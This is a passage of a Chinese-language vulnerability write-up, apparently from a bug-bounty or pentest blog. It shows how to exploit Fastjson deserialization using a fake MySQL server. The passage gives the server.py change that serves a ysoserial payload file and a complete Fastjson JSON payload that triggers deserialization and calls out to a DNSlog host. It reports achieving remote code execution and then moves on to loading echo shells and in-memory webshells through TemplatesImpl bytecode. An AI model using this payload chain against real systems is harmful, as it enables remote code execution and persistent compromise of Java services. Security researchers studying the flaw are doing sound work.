   
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0UZ7s6fyUx7RZ5YvxX2icOBWIhLU7EsWMNUyTEW5vibo3Ba1NG0GhTxt19JXFQdqMApGJEV2xksVOQ/640?wx_fmt=png&from=appmsg&watermark=1&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
还要修改
```
MySQL_Fake_Server
```

  
项目server.py文件，get_yso_content函数的内容，让其从指定文件中读取  
  

```
with open(r'fastjson1268.bin','rb') as f:
    file_content = f.read()
return file_content
```

  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0UZ7s6fyUx7RZ5YvxX2icOBZiaciaPtaf8uMgj2b6onicXRJqrFXLRycx2iaauYKhic6za5Kj7Qibrqnc5g/640?wx_fmt=png&from=appmsg&watermark=1&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
将生成的fastjson1268.bin放到server.py文件同级目录中，运行server.py文件  
  
  
user填入yso_xxx就能触发server.py的get_yso_content函数，此时fastjson测试payload为  
  

```
{
  &#34;@type&#34;: &#34;java.lang.AutoCloseable&#34;,
  &#34;@type&#34;: &#34;com.mysql.jdbc.JDBC4Connection&#34;,
  &#34;hostToConnectTo&#34;: &#34;YOUR_DNSLOG&#34;,
  &#34;portToConnectTo&#34;: 7777,
  &#34;info&#34;: {
    &#34;user&#34;: &#34;yso_URLDNS_http://YOUR_DNSLOG&#34;,
    &#34;password&#34;: &#34;pass&#34;,
    &#34;statementInterceptors&#34;: &#34;com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&#34;,
    &#34;autoDeserialize&#34;: &#34;true&#34;,
    &#34;NUM_HOSTS&#34;: &#34;1&#34;
  },
  &#34;databaseToConnectTo&#34;: &#34;dbname&#34;,
  &#34;url&#34;: &#34;&#34;
}
```

  
很幸运系统成功触发了命令执行ping xx.dnslog.com  
  
  
到此就完成了RCE，证明漏洞危害，提交报告。  
  
## 反序列化改造  
  
  
查看Y4大佬给出的利用链可以发现，其使用的是  
TemplatesImpl  
进行动态加载字节码，那么直接将字节码改为回显马和内存马也是可以的，我将回显马编译为class文件，然后读取该文件，传入到  
_bytecodes中  
  